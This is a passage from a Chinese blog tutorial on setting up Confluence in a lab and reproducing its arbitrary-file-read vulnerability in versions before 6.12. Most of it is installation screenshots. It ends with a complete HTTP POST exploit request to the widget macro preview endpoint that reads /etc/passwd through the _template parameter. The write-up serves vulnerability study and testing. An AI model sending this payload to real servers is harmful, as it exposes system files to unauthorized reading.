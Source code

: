 

然后会自动跳转帮我们填好key。然后点击Next安装即可。



![](https://img-blog.csdnimg.cn/20210131172156728.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。



![](https://img-blog.csdnimg.cn/20210131172818562.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20210131172914605.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20210131173014537.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20210131173131634.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20210131173145469.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20210131173252402.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20210131223958245.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



漏洞复现

----



### 任意文件读取



6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件。也可以通过../跳转路径读文件



```
POST /rest/tinymce/1/macro/preview HTTP/1.1      
Host: 192.168.10.129:8090      
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0      
Accept: text/plain, */*; q=0.01      
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3      
Accept-Encoding: gzip, deflate, br      
Content-Type: application/json; charset=utf-8      
X-Requested-With: XMLHttpRequest      
Referer: http://192.168.10.129:8090      1
Content-Length: 167      1
X-Forwarded-For: 127.0.0.2      1
Connection: keep-alive       1
{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_template":"file:///etc/passwd"},"body":""}}
```
